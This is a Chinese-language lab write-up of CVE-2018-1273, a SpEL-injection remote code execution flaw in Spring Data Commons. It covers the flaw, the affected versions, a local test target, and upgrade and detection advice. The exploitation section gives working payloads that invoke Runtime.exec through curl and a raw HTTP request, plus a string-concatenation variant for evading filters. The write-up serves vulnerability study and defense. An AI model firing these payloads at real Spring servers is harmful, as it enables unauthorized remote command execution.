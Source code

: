 ```yaml
---
category: 网络安全
tag: 漏洞分析
---
```




# 命令执行_spring_CVE-2018-1273_Spring_Data_Commons远程命令执行漏洞（利用方式二可绕过）

---

## 漏洞介绍

> [国家信息安全漏洞库 (cnnvd.org.cn)](https://www.cnnvd.org.cn/home/globalSearch?keyword=CNNVD-201804-564)
>
> [NVD (nist.gov)](https://nvd.nist.gov/vuln/detail/CVE-2018-1273)

---

**Spring Data**是一个用于简化数据库访问，并支持云服务的开源框架，其主要目标是使数据库的访问变得方便快捷。**Spring Data Commons**是Spring Data下所有子项目共享的基础框架。

Spring Data是一个用于简化数据库访问，并支持云服务的开源框架，Spring Data Commons是Spring Data下所有子项目共享的基础框架。Spring Data Commons 在2.0.5及以前版本中，组件中存在远程代码执行漏洞，攻击者可构造包含有恶意代码的SPEL表达式实现远程代码攻击，直接获取服务器控制权限。

---

### 漏洞危害

未经身份验证的远程恶意用户（或攻击者）可以针对Spring Data REST支持的HTTP资源提供特制的请求参数，或者使用Spring Data的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 影响范围

- Spring Data Commons 1.13 to 1.13.10 (Ingalls SR10)
- Spring Data REST 2.6 to 2.6.10 (Ingalls SR10)
- Spring Data Commons 2.0 to 2.0.5 (Kay SR5)
- Spring Data REST 3.0 to 3.0.5 (Kay SR5)
- Older unsupported versions are also affected

---

## 漏洞原理

Spring Data Commons（1.13至1.13.10之前的版本，2.0至2.0.5的版本以及较旧的不受支持的版本）包含由于特殊元素的不正确中和而导致的属性绑定器漏洞。未经身份验证的远程恶意用户（或攻击者）可以针对Spring Data REST支持的HTTP资源提供特制的请求参数，或者使用Spring Data的基于投影的请求有效负载绑定可能导致远程执行代码攻击。

---

### 源码分析

Spring 在自动解析用户的参数的时候采用了SpelExpressionParser 来解析 propertyName，但是并没有对参数进行进行有效的校验，

![img1](./img/spring_CVE-2018-1273_bypass/img1.png)

------

## 漏洞利用


---

### 靶机环境

自建环境，见文件夹内的.jar文件

---

### 利用方式 1

------

#### 利用思路

利用 this.getClass().forName("java.lang.Runtime").getRuntime().exec()函数构造 payload 进行代码执行漏洞利用

---

#### 漏洞利用

1）访问http://ip:8080/account

![img4](./img/spring_CVE-2018-1273_bypass/img4.png)

2) 发送payload：这里尝试了两种方法，建议采用第二种。

* 方法一：firefox浏览器F12打开，选择network，点击reload后得到请求包，再点击resend即可在浏览器上直接修改请求。如下

![img3](./img/spring_CVE-2018-1273_bypass/img3.png)



构造攻击数据，修改为POST请求，payload部分填写如下：

```
[#this.getClass().forName("java.lang.Runtime").getRuntime().exec("touch aa.txt")]
```

* 方法二：执行命令

```
curl -X POST http://192.168.1.189:8080/account -d "name[#this.getClass().forName('java.lang.Runtime').getRuntime().exec('touch aa.txt')]=123"
```

![img2](./img/spring_CVE-2018-1273_bypass/img2.png)

3）攻击成功，结果如下：

![img7](./img/spring_CVE-2018-1273_bypass/img7.png)

### 利用方式 2(绕过)

------

#### 利用思路

修改payload为如下形式：

```
name[#this.getClass().forName('ja'+'va.l'+'ang.Run'+'time').getRuntime().exec('touch test22.txt')]=123
```

将原本的payload利用+拼接。

---

#### 漏洞利用

使用hackbar插件，发送如下，

![img14](./img/spring_CVE-2018-1273_bypass/img14.png)

这里选择hackbar的原因是编码方式的问题，若使用burpsuite，请求包如下：

```
POST /account HTTP/1.1
Host: 192.168.1.189:8080
Connection: keep-alive
Content-Length: 150
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://192.168.1.189:8080
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.1.189:8080/account
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9

name%5B%23this.getClass%28%29.forName%28%27ja%27%2B%27va.l%27%2B%27ang.Run%27%2B%27time%27%29.getRuntime%28%29.exec%28%27touch+test22.txt%27%29%5D=123
```



攻击成功，结果如下：

![img15](./img/spring_CVE-2018-1273_bypass/img15.png)


---

## 威胁防护建议

---

### 用户处置建议

升级框架到最新版本。将Spring Data Commons框架的版本由2.0.x升级到2.0.6，1.13.x的用户升级到1.13.11。

---

### 产品检测建议

可针对[#this.getClass().forName('java.lang.Runtime').getRuntime().exec()的命令及其拼接的形式进行检测。

---



# 附录

## 靶场搭建方法

代码下载：https://github.com/wearearima/poc-cve-2018-1273

编译后打成jar包（见poc文件夹）

```
cd ./poc
java -jar poc-cve-2018-1273-0.0.1-SNAPSHOT.jar
```

